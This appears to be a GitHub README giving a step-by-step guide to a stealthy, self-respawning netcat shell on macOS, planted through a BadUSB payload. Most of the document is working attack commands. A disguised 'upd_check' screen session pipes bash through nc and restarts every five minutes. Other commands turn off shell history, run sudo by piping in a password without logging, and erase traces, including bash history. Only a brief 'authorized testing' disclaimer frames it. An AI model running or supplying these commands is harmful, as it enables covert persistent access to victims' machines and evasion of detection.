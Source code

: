 # **Mac Endless Reverse Shell**

### **This guide is for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical.**

Interactive reverse shell on MacOS systems, leveraging **`nc`** (netcat). This approach is designed for stealth and efficiency, avoiding reliance on Python or any other non-standard tools on the target machine. Follow these steps carefully to maintain control over the target system discreetly.

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

Not used in the BadUSB script but good to have.

- **Initial Command:** This sets up a continuous loop that listens for incoming connections on port 9123, handling signals to clean up and exit gracefully if needed.

`screen -dmS upd_check bash -ic "unset HISTFILE; set +o history; trap 'rm -f /tmp/f; screen -S background_process -X quit; kill -SIGINT $$' EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f; [ -f /tmp/terminate ] && break || true; sleep 1; done"` 

The BadUSB Payload:

- **Enhanced Command:** Improves upon the initial setup by attempting to re-establish the reverse shell every 5 minutes, ensuring connectivity even if the session is disrupted.

`screen -dmS upd_check bash -ic 'unset HISTFILE; set +o history; trap "rm -f /tmp/f; screen -S background_process -X quit; killall nc 2>/dev/null; kill -SIGINT $$" EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f & sleep 300; pkill -f "nc -l 9123" 2>/dev/null && ps aux | awk "/bash -i/ && !/awk/ {print \$2}" | xargs kill -9; if [ -f /tmp/terminate ]; then break; fi; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** After Switching to root execute this for not logging commands.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

When using the **`script`** command to enhance the shell environment, there's a risk of leaving the reverse shell process in a suspended state if the session exits unexpectedly. This can occur because the **`script`** command initiates a new shell session for logging purposes, and if this session is not properly terminated (for instance, due to a network disconnection or closing the terminal without exiting the **`script`** session), the underlying process may continue to run without the ability to reconnect. To mitigate this risk and ensure the ability to reconnect, it's crucial to exit the **`script`** session using the **`exit`** command before ending your reverse shell session. This ensures that all processes are terminated properly and the shell is left in a state that allows for future connections.

For the clarification on the **`screen`** command and how the enhanced command improves reliability:

### **Clarification on `screen` Command:**

The enhanced **`screen`** command offers a significant improvement over the initial setup by incorporating a mechanism to automatically attempt re-establishment of the reverse shell connection every 5 minutes. This approach is particularly useful in scenarios where the reverse shell might be disrupted due to network instability or if the initial connection is accidentally closed. By using a loop that periodically kills the existing **`nc`** (netcat) listener and starts a new one, the command ensures that the attacker can regain access to the target machine without needing to re-deploy the payload. This auto-reconnect feature makes the reverse shell more resilient to disconnections and enhances its persistence on the target machine, ensuring that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure is designed for operational discretion and effectiveness. Ensure you have authorized access to the system before attempting this setup.***

